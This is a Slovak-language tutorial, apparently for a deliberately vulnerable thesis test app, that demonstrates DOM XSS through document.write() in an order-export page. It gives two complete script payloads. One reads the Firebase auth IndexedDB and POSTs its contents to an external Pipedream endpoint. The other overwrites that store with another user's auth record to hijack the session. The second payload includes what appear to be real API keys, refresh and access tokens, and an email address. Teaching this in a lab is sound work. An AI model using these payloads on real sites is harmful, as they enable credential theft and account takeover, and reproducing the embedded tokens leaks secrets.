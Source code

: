 # Document objcet model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Teraz si predstavíme DOM XSS na príklade vygenerovania exportu objednávky do novéhe tabu prehliadača pomocou metódy document.write().
- Metóda document.write() prepisuje celú kostru stránky a generuje novú pomocou argumentu vloženého do metódy. Týmto spôsobom sa dajú jednoducho a automatizovane generovať nové stránky alebo upravovať už existujúce.
- Problém nastáva, keď sa do argumentu vloží vrátane rôznych tagov aj škodlivý kód. Škodlivý kód je priamo vložený do tela stránky.
- Ako môžeme vidieť v testovacom prostredí, tak obrayovka obsahuje input kam zapisujeme názov exportu našej objednávky a tlačidlo na vygenerovanie exportu.
- Ako prvé sa presunieme na podstránku produktov a vložíme ľubovoľné produkty do košíka.
- Keď máme košík naplnený produktami môžeme zmeniť alebo ponechať názov exportu a kliknúť na tlačidlo “Export”.
- Vygeneroval sa nám jednoduchý export objednávky na novom tabe. Ako môžeme vidieť názov exportu je vpísaný ako nadpis nad jednotlivými položkami košíka. Hodnota z inputu je priamo vložené do 
  tela novej stránky čím vzniká zraniteľnosť a priestor na vloženie škodlivého kódu.
- Zopakujme si proces generovania exportu ale teraz vložíme škodlivý kód do inputu pre názov exportu.
- Vložme nasledovný úryvok kódu do inputu:
- ```
      <script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const getDataRequest = objectStore.getAll();

        getDataRequest.onsuccess = (event) => {

        const headers = new Headers();
        headers.append("Content-Type", "text/plain");

        const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: JSON.stringify(event.target.result),
        };

        fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
        }
      };
      </script>
- Ukážkový kód sprístupní lokálnu databázu prehliadača (indexDB), ktorú autentifikačný servis FirebaseAuth využíva na uchovávanie dát o prihlásenom používateľovi. 
  Vytiahneme dáta z databázy a celý objekt si odošleme na náš vygenerovaný endpoint v službe Pipedream (https://pipedream.com/).
- Po vygenerovaní exportu môžeme vidieť, že názov exportu je prázdny a spustil sa náš škodlivý kód. Na endpoint by nám mal prísť celý objekt s dátami.
- Odhlásime sa z aplikácie a opätovne sa prihlásisme pod iným účtom, buď existujúcim alebo si vytvoríme nový.
- Po prihlásení využijeme spomínanú zraniteľnosť znova a vložíme do lokálnej databázy dáta užívateľa, čím prelomíme autentifikáciu a prihlásime sa do iného účtu.
- Kód na vloženie používateľských dať vyzerá nasledovne:
     ```<script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const data = {
          fbase_key:
            "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
          value: {
            uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
            email: "mate@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "mate@gmail.com",
                displayName: null,
                email: "mate@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken:
                "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                  9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
              accessToken:
                "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
    .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
    iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
    hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
    pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
    3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
    7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
    wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
              expirationTime: 1711794096425,
            },
            createdAt: "1711388904315",
            lastLoginAt: "1711790496471",
            apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
            appName: "[DEFAULT]",
          },
        };

        objectStore.clear();

        const addDataRequest = objectStore.add(data);

        addDataRequest.onsuccess = (event) => alert("Success!");
      };
    </script>

- Teraz môžeme refreshnut stránku a ako môžeme vidieť v hlavičke stránky alebo po kliku na profil, že sme prihlásený pod iným účtom.